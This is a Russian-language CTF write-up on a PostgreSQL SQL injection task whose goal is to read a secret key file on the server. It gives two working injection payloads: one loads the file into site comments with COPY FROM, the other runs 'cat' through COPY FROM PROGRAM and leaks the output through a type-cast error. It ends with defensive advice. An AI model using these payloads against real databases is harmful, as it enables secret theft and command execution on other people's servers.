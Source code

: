 # День пятый (Postgres RCE SQL Injection)
-- -
### Цель атаки: 
Получить секретный ключ `/app/secret_key.py`, хранящийся на сервере

### Решение:

Задание было в формате однокомандного CTF. Участникам предлагалось объединиться вмесет, чтобы найти уязвимость и
получить секретный ключ. Первым делом необходимо понять, какая используется на сервере база данных и ее версия. 
Затем необходимо было проэксплотировать уязвимость и получить доступ к ключу. Официально решение предполагало 
использование Remote Code Execution, но участникам удалось справиться и без этого

### Итоговый эксплоит:
1) Решение участников: эксплоит копирует содержимое файла secret_key.py в случайную строчку комментариев на сайте,
```sql
lol', '2000-01-01'); COPY comments(text) from '/app/secret_key.py'; insert into users values ('lol
```

2) Авторское решение: позволяет вывести секретный ключ атакующему
```sql
lol', '2000-01-01');
CREATE TABLE cmd_exec(cmd_output text); 
COPY cmd_exec FROM PROGRAM 'cat /app/secret_key';
; insert into users values ('lol
```
```sql
lol', '2000-01-01'); SELECT CAST(cmd_output as DATE) FROM cmd_exec;
```

### Интсрументы и полезные ссылки
- Все атаки на PostgreSQL https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

### Способ защиты
- Отключить инструкцию COPY FROM в настройках базы
- Экранировать пользовательский ввод
